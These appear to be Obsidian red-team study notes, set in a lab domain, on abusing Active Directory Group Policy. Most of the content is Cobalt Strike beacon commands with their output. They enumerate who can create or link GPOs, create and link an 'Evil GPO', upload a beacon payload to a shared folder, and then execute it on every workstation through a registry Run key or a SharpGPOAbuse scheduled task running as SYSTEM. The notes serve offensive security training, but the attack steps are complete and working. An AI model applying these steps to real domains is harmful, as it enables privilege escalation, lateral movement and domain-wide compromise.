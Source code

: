 ```yaml
---
creation date: September 25th 2022
last modified date: September 25th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Group Policy Abuse]]  
___

## Description:  

Group Policy is the central repository in a forest or domain that controls the configuration of computers and users. Group Policy Objects (GPOs) are sets of configurations that are applied to Organisational Units (OUs). Any users or computers that are members of the OU will have those configurations applied.


### Enumeration

^1ad490

This PowerView query will show the Security Identifiers (SIDs) of principals that can create new GPOs in the domain, which can be translated via `ConvertFrom-SID`.

```
beacon> powershell Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125

DEV\1st Line Support

```

This query will return the principals that can write to the GP-Link attribute on OUs:
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl

ObjectDN           : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 1,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 2,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125
```

From this output, we can see that the **1st Line Support** domain group can both create new GPOs **and** link them to several OUs. This can lead to a privilege escalation if more privileged users are authenticated to any of the machines within those OUs. Also imagine if we could link GPOs to an OU containing sensitive file or database servers - we could use those GPOs to access those machines and subsequently the data stored on them.

You can also get a list of machines within an OU.

```
beacon> powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName

dnshostname            
-----------            
srv-1.dev.cyberbotic.io
```

This query will return any GPO in the domain, where a 4-digit RID has **WriteProperty**, **WriteDacl** or **WriteOwner**.

```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN={AD7EE1ED-CDC8-4994-AE0F-50BA8B264829},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1126

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1126
DEV\Developers

```

To resolve the ObjectDN:
```
beacon> powershell Get-DomainGPO -Name "{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}" -Properties DisplayName

displayname       
-----------       
PowerShell Logging
```

### Bloodhound enumeration
```
MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) RETURN p
```

### Remote Server Administration Tools (RSAT)

^62d4b1

RSAT is a management component provided by Microsoft to help manage components in a domain.

The GroupPolicy module has several PowerShell cmdlets that can be used for administering GPOs, including:

-   New-GPO: Create a new, empty GPO.
-   New-GPLink: Link a GPO to a site, domain or OU.
-   Set-GPPrefRegistryValue: Configures a Registry preference item under either Computer or User Configuration.
-   Set-GPRegistryValue: Configures one or more registry-based policy settings under either Computer or User Configuration.
-   Get-GPOReport: Generates a report in either XML or HTML format.

You can check to see if the GroupPolicy module is installed with `Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`. In a pinch, you can install it with `Install-WindowsFeature –Name GPMC` as a local admin.

Create a new GPO and immediately link it to the target OU.

```
beacon> getuid
[*] You are DEV\jking

beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"

GpoId       : d9de5634-cc47-45b5-ae52-e7370e4a4d22
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 4
```

Being able to write anything, anywhere into the HKLM or HKCU hives presents different options for achieving code execution. One simple way is to create a new autorun value to execute a Beacon payload on boot.

You can find this writeable software share with PowerView:
```
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```

Then upload beacon (put it on a remote share that everyone can access):
```
beacon> cd \\dc-2\software
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 281kb    fil     03/10/2021 13:54:10   pivot.exe

```

Now create a new autorun value, when gpo gets updated (usually every few hours), it will be applied to all workstations.

```
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "@COMSPEC@ /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString

DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\jking
Id               : d9de5634-cc47-45b5-ae52-e7370e4a4d22
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 5/26/2021 2:35:02 PM
ModificationTime : 5/26/2021 2:42:08 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        :
```


### SharpGPOAbuse

^cfdd15

Not as oppsec as using built in tools like RSAT.

[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) allows a wider range of "abusive" configurations to be added to a GPO. It cannot create GPOs, so we must still do that with RSAT or modify one we already have write access to. In this example, we add an Immediate Scheduled Task to the PowerShell Logging GPO, which will execute as soon as it's applied.

```
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "PowerShell Logging" is: {AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}
[+] Creating file \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

Beacons will come in as the machines in the domain refresh their GPOs
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 25th 2022 (06:12 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
